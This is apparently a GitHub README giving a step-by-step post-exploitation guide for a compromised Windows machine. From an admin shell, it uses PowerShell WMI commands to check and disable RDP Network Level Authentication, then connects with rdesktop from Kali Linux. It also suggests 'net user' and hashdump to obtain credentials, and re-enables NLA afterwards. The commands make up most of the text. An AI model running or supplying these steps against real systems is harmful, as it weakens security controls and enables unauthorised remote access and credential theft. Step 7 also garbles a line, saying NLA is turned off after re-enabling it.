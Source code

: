 ## WARNING
-DO THIS AT YOUR OWN RISK :) 

1. Shell Needed Requires Admin Privilege.
2. Powershell MUST be Used !
3. You will need the password of the Desktop you are connecting to save time.
 
## Here are the Steps 

1. Once you have Admin Level Shell

2. Run a Sysinfo to see the Name of the Desktop.

      Image is seen below:

      ![alt text](resources/rpc_images/sysinfo.PNG)

3. In the Powershell, 
  You need to establish the Variable of the Name of the System.
   
   Follow the Codes in Order :-
    
   - `shell`
    
   - `powershell`
    
   - `$ComputerName = " NAME SEEN IN SYSINFO "`
  
    Image is seen below:

    ![alt text](resources/rpc_images/Variable.PNG)
      
4. Once you have done this, You will need to check if you require Network Level Authentication(NLA).
    Use the Following command to check if you do not know:-
    
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired`
    
    
    **If "1" is returned, it means NLA is on.**
    
    
    **If "0" is returned, it means NLA is off.**
    
    
    Image is seen below:

    ![alt text](resources/rpc_images/CheckingNLA.PNG)
    
5. Since we do not have Network Level Authentication(NLA), We need to turn off the NLA. 
   Using Admin Level Powershell,
   
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)`
  
      
      Image is seen below:

    ![alt text](resources/rpc_images/TurnOffNLA.PNG)
  
    Now It will be turned off.
    Use Number 4 command to check if it worked. 
  
      Image is seen below:

      ![alt text](resources/rpc_images/TurnedOffNLA.PNG)
  
6. Since now it is off, we can connect using our normal shell in our own machine.
    Ue the command in Kali Linux Shell to connect:-
  
    `rdesktop <IP ADDRESS> -u <Username> -p <Usermame's Password>`
    
    Image is seen below:

    ![alt text](resources/rpc_images/rdesktop.PNG)

    ![alt text](resources/rpc_images/connectedRPC.PNG)
    
    **- If you do not know the Username, run the command `net user` in the Powershell**
    
     Image is seen below:

     ![alt text](resources/rpc_images/net_user.PNG)
    
    **- If you do not know the Username's Password, hashdump will be required.**
    
    
7. Once you have finished with everything, to reactivate the Network Level Authentication(NLA).
    Using the Admin Level Powershell,
    
     `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(1)`

    Image is seen below:

    ![alt text](resources/rpc_images/TurnOnNLA.PNG)

    Now It will be turned off.
    Use Number 4 command to check if it worked.
   
    Image is seen below:

    ![alt text](resources/rpc_images/TurnedOnNLA.PNG)

  
